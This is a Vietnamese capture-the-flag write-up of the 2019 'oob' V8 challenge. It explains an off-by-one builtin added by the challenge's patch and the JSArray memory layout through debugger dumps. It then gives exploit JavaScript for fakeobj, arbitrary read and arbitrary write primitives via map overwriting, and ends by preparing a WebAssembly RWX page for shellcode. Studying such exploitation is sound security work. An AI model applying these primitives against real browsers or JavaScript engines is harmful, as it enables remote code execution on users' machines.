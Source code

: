 # write up oob 2019
- bài sẽ cho chúng ta 1 file zip trong đó có chứa patch để build v8 engine từ source code
- chỉ cần tập trung vào file patch vì đây là code sẽ được thêm mới vào v8, file patch có tên là oob.diff
- trong file patch chứa 1 phần BUILTIN function được thêm vào
```cpp
+BUILTIN(ArrayOob){
+    uint32_t len = args.length();
+    if(len > 2) return ReadOnlyRoots(isolate).undefined_value();
+    Handle<JSReceiver> receiver;
+    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+            isolate, receiver, Object::ToObject(isolate, args.receiver()));
+    Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+    FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+    uint32_t length = static_cast<uint32_t>(array->length()->Number());
+    if(len == 1){
+        //read
+        return *(isolate->factory()->NewNumber(elements.get_scalar(length)));
+    }else{
+        //write
+        Handle<Object> value;
+        ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+                isolate, value, Object::ToNumber(isolate, args.at<Object>(1)));
+        elements.set(length,value->Number());
+        return ReadOnlyRoots(isolate).undefined_value();
+    }
+}
```
- tên hàm được đặt là oob và hàm sử dụng được với object được tạo kiểu array

 ```c
+    SimpleInstallFunction(isolate_, proto, "oob",
+                          Builtins::kArrayOob,2,false);
```
- ta có thể thấy khi len == 1 (len là số args được pass qua hàm oob), hàm sẽ return giá trị là phần tử thứ length của array,tức là length của array dược lấy làm index, tuy nhiên thực sự index của mảng n elements phải bắt đầu từ 0, và kết thúc là n-1, nhưng index là n nên bị out of bound
```cpp
    FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
```
```cpp
float get_scalar() const { return bit_cast<float>(bit_pattern_); }
```
- object được lấy ra và sau đó truy xuất tới phần tử của index đó thông qua hàm get_scalar của class FixedDoubleArray, vì vậy giá trị trả về sẽ kiểu float
- hàm này chỉ là hàm handle lỗi và các thứ
```cpp
isolate->factory()->NewNumber()
```
- trong javascript, khi object JSArray được tạo ra thì sẽ có 4 fields như sau:
```cpp
d8> DebugPrint: 0x319e6328dd21: [JSArray]
 - map: 0x1aa7c7a42d99 <Map(PACKED_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x0da3038d1111 <JSArray[0]>
 - elements: 0x319e6328dcc1 <FixedArray[1]> [PACKED_SMI_ELEMENTS (COW)]
 - length: 1
 - properties: 0x3ecebe500c71 <FixedArray[0]> {
    #length: 0x1211409c01a9 <AccessorInfo> (const accessor descriptor)
 }
```
- JSArray có 1 cái là map object, map dùng để v8 engine có thể xác định được kiểu dữ liệu nào đang được sử dụng trong JSArray, elements, map có thể được thay đổi trong quá trình thay đổi dữ liệu trong JSArray, map khi bị thay đổi sẽ keep track map trước đó
- tiếp theo là elements, elements là object FixedArray
```cpp
d8> 0x334c86490661: [FixedArray]
 - map: 0x33f0d0f00851 <Map>
 - length: 1
           0: 0x33f0d0f3b7b9 <String[#1]: a>
$
```
```cpp
0x33f0d0f00851: [Map]
 - type: FIXED_ARRAY_TYPE
 - instance size: variable
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
...
```
- elements cũng được track bởi 1 map
- khi test có ta có thể thấy 1 điều đặc biệt ở array kiểu [object,object,object] hoặc [float,float,float] đó là element object sẽ nằm trên object của JSArray, điều này không xảy ra với [int,int,int]
- khi test thử 1 object với 3 elements kiểu float
```cpp
d8> [1.2, 1.2, 1.3]
$ %DebugPrint(a)
d8> DebugPrint: 0x334c86491d91: [JSArray]
 - map: 0x2b1b72382ed9 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x13edc9f11111 <JSArray[0]>
 - elements: 0x334c86491d69 <FixedDoubleArray[3]> [PACKED_DOUBLE_ELEMENTS]
 - length: 3
 - properties: 0x33f0d0f00c71 <FixedArray[0]> {
    #length: 0x3fa4374001a9 <AccessorInfo> (const accessor descriptor)
 }
```
- có thể thấy rằng số elements là 3 ở địa chỉ có đuôi 1d70
- 3 phần tử chạy từ 1d78 đến 1d88
- ta có map của JSArray sẽ là phần tử thứ 4 tính theo mảng
```cpp
pwndbg> tel 0x334c86491d69-1
00:0000│  0x334c86491d68 —▸ 0x33f0d0f014f9 ◂— 0x33f0d0f001
01:0008│  0x334c86491d70 ◂— 0x300000000
02:0010│  0x334c86491d78 ◂— 0x3ff3333333333333
03:0018│  0x334c86491d80 ◂— 0x3ff3333333333333
04:0020│  0x334c86491d88 ◂— 0x3ff4cccccccccccd
05:0028│  0x334c86491d90 —▸ 0x2b1b72382ed9 ◂— 0x4000033f0d0f001
06:0030│  0x334c86491d98 —▸ 0x33f0d0f00c71 ◂— 0x33f0d0f008
07:0038│  0x334c86491da0 —▸ 0x334c86491d69 ◂— 0x33f0d0f014
pwndbg> 
08:0040│  0x334c86491da8 ◂— 0x300000000
```
- quay lại đây chính vì vậy ta có index mà là length thì sẽ là 3, bắt đầu từ index 0, ta sẽ in được địa chỉ của map dưới dạng float, ta có arb read
```cpp
+    if(len == 1){
+        //read
+        return *(isolate->factory()->NewNumber(elements.get_scalar(length)));
```
- tiếp theo ta có arb write nếu len != 1 tại index = length, map sẽ bị ghi đè bằng giá trị mà chúng ta nhập vàoj
```
elements.set(length,value->Number());
```
```cpp
double Object::Number() const {
  DCHECK(IsNumber());
  return IsSmi() ? static_cast<double>(Smi(this->ptr())->value())
                 : HeapNumber::unchecked_cast(*this)->value();
}
```
- tùy theo kiểu mà sẽ trả về value theo kiểu đó, hàm value được định nghĩa trong class của kiểu dữ liệu
- khi có thể write map lúc này ta sẽ có thể control đc kiểu dữ liệu mà v8 sẽ sử dụng, với leak thì ta có địa chỉ của map, với write thì ta control map bằng cách như sau:
- ta có thể tận dụng map để fake 1 địa chỉ ghi vào kiểu float, thành 1 object JSArray, từ đó có thể leak dữ liệu ra,
- object sẽ được fake thông qua 1 JSArray khác bằng cách ghi dữ liệu vào như thông thường
 ```cpp
arb_rw_arr = [itof(flt_map),itof(0x0000000200000000n),1.2,itof((0x1n<<32n))] // only leak 1 addr
console.log("debug arb_rw_arr: ");%DebugPrint(arb_rw_arr)
function fakeobj(val){
  if(val % 2n==0){
    val +=1n
  }
  first = addrof(arb_rw_arr) - 0x20n
  arb_rw_arr[2] = itof(val-0x10n)
  flt[0] = itof(first)
  flt.oob(itof(obj_arr_map))
  result = flt[0]
  flt.oob(itof(flt_map))
  return result
```
- hàm addrof sử dụng để lấy điạ chỉ của 1 object, ta sẽ fake y chang như 1 elements nhưng địa chỉ trong elements phải -0x10n để nó rơi trúng địa chỉ mà ta cần leak hoặc write
- tiếp theo đó là ta sẽ lấy địa chỉ của phần element bắt đầu từ map, rồi ghi địa chỉ đó vào 1 JSArray khác, rồi sau đó ghi map là map của obj array để nó đọc địa chỉ đó thành 1 cái obj array, thay vì nó là 1 float, sau đó gán obj array đó vào 1 biến rồi return, như vậy là ta đã có được 1 fakeobj
- tiếp theo để leak địa chỉ nằm trong 1 địa chỉ khác, ta sẽ tạo 1 float array, gán fakeobj với địa chỉ fake element chứa 1 địa chỉ cần leak vào 1 phần tử của float array, sau đó ghi đè map thành map của obj array, sau đó lấy dữ liệu ra như cách 1 object  chứa trong 1 obj khác, rồi return về giá trị đó
```cpp
function ptrva(val){
  flt_arr = [1.1,2.2,3.3]
  flt_arr[0] = fakeobj(val)
  flt_arr.oob(origin)
  result = flt_arr[0][0]
  flt_arr.oob(itof(flt_map))
  return ftoi(result)
}
```
- giả sử ta có địa chỉ như này:  0x1ed0e780040 —▸ 0x55a651b8d128 , với hàm trên ta leak được 0x55a651b8d128
- tận dụng hàm để leak mọi thứ
- tiếp theo để khai thác arb write ta cũng viết 1 hàm sau đó fake 1 object rồi đè map như hàm trên, nhưng sau đó ta sẽ tận dụng hàm obb để ghi đè
```cpp
function wrivar(addr,val){
  flt_arr = [1.1,2.2,3.3]
  flt_arr[0] = fakeobj(addr-0x8n)
  flt_arr.oob(origin)
  flt_arr[0].oob(itof(val))
  flt_arr.oob(itof(flt_map))
}
```
- sau khi leak có được mọi thứ, ta sẽ tạo 1 page địa chỉ của webassembly để có rwx và ghi shellcode
```cpp
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
```
